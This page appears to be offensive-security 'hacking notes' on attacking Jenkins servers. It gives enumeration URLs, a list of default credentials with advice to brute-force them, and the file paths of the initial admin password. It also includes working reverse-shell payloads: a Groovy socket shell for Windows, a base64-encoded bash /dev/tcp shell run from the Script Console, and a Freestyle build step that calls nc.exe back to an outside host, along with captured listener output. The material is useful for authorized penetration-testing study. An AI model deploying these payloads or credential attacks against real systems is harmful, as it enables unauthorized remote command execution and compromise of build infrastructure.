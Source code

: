 ```yaml
---
title: Jenkins
category: Software
order: 4
---
```


# Introduction

Jenkins is a free and open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery. It is a server-based system that runs in servlet containers such as Apache Tomcat.

![Jenkins Login.](/hackingnotes/images/jenkins.png)

# Enumeration

We can obtain a some valuable information without necessarily log in on the server.

## Jenkins Version

Visit the following route to obtain the Jenkins version on the footer page.

```
/oops
/error

Page generated: Sep 27, 2021 12:46:28 PM PDTREST APIJenkins ver. 2.204.1
```

## Users

Without credentials it is possible to obtain some users.

```
/people
/people/
/asynchPeople
/asynchPeople/
/securityRealm/user/admin/search/index?q=
```

# Credentials

There are no default credentials but some times these works.

> **Note**: Jenkins does **not have** any type of **account lockout** neither a **strong password policy** so you can try to brute force it.

```
admin:admin
admin:nimda
admin:password
admin:jenkins
manager:manager
manager:reganam
manager:password
manager:jenkins
builduser:builduser
```

In new versions the password is randomized at installation. We can find the initial password here:

* **Linux**

```
/var/jenkins_home/secrets/initialAdminPassword
/home/jenkins/secrets/initialAdminPassword
/var/lib/jenkins/secrets/initialAdminPassword
/opt/jenkins/secrets/initialAdminPassword
```

* **Windows**

```
C:\Program Files (x86)\Jenkins\secrets\initialAdminPassword
C:\Program Files\Jenkins\secrets\initialAdminPassword
```

# From Admin to Reverse Shell

There are multiple ways in which from administrative privileges in Jenkins you can get a reverse shell.

## Script Console

To obtain a Reverse shell we need to execute **`Manage Jenkins`** on **`Script Console.`**

```
http://<jenkins_server>/script
```

![Jenking Script Console.](/hackingnotes/images/jenkins_scriptconsole.png)

This is and example of Grovy Script to execute commands on the target machine, either windows or linux.
```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'whoami'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Windows Reverse Shell

```
String host="<IP-ADDR>";
int port=<PORT>;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Linux Reverse Shell

First we need to craft the payload.

```
$ echo "bash -c 'bash -i >& /dev/tcp/10.10.10.10/443 0>&1'" | base64
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC80NDMgMD4mMScK
```

And introduce inside the Grovvy script.

```
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = 'bash -c {echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC80NDMgMD4mMScK}|{base64,-d}|{bash,-i}'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

## Freestyle Project

We can create a new project or see if we can modify the configuration of an existant project.

To create a new project go on **`New Item`** tab.

![Jenkins Dashboard](/hackingnotes/images/jenkins_newitem.png)

Introduce a name such as **`Access`** and select **`Freestyle Project`** .

![Jenkins Creating a New Item.](/hackingnotes/images/jenkins_projects.png)

Scroll down until you find the **`Build`** section and add a **`Execute Windows batch command`** as build step.

![Jenkins Execute Windows Batch Command.](/hackingnotes/images/jenkins_build.png)

Introduce the reverse shell on the Command window and click **`Save`**.

```
\\10.10.10.10\share\nc.exe -e cmd.exe 10.10.10.10
powershell.exe -c <command>
```

Go to **`Build Now`** section.

![Jenkins Build Now section.](/hackingnotes/images/jenkins_buildnow.png)

When the build is executed a new item will be displayed under the **`Build History`**.

![Jenkins Build History.](/hackingnotes/images/jenkins_history.png)

At that moment a reverse shell is obtained.

```
$ sudo nc -lvp 443
listening on [any] 443 ...
connect to [10.10.10.11] from (UNKNOWN) [10.10.10.11] 26524
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>    
```

We can also check the console output selecting the **`Built Item #1`** and going to **`Console Output`** section.

![Jenkins Console Output.](/hackingnotes/images/jenkins_console.png)

